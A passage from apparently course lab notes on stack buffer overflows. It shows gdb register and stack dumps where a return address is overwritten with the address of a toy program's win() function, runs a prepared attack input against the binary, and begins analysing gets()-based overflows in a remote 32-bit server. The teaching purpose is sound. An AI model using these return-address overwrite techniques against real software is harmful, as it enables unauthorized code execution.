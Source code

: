 ```bash
r12            0x0                 0
r13            0x7fffffffe4e0      140737488348384
r14            0x555555557dd8      93824992247256
r15            0x7ffff7ffd020      140737354125344
rip            0x5555555551a8      0x5555555551a8 <test_pw+79>
eflags         0x202               [ IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
```

Examining the memory shows the the address of the `win()` function `0x00005555555551af` is now the `RET` value

```bash
(gdb) x/12gx $rsp
0x7fffffffe390: 0x4141000000000000      0x4343424242424141
0x7fffffffe3a0: 0x4545444444444343      0x00005555555551af
0x7fffffffe3b0: 0x4949484848484747      0x00004a4a4a4a4949
0x7fffffffe3c0: 0x00007fffffffe4b0      0x00005555555551c5
0x7fffffffe3d0: 0x0000000255554040      0x00007fffffffe4c8
0x7fffffffe3e0: 0x00007fffffffe4c8      0x1a119f3178cc5d2c
```

```bash
(gdb) continue
Continuing.
Enter password: You win!

Breakpoint 2, win () at pwd.c:14
14      }
```

### Running the Exploit Outside the Debugger

```bash
~$ ./pwd64 < attack-pwd64
Password address: 0x7fffffffe3d6
Enter password: You win!
Segmentation fault
```

## 202.5 & 202.6: Exploiting a Remote 32-bit Server

The `main()` function creates an array of size 100 and uses `gets` to read and store the user input. This is the first potential buffer overflow.

The `activate()` function takes a pointer to the character array that stored the user input. Another potential buffer overflow is seen as a local array of size 25 is created and string copies the user input to it.
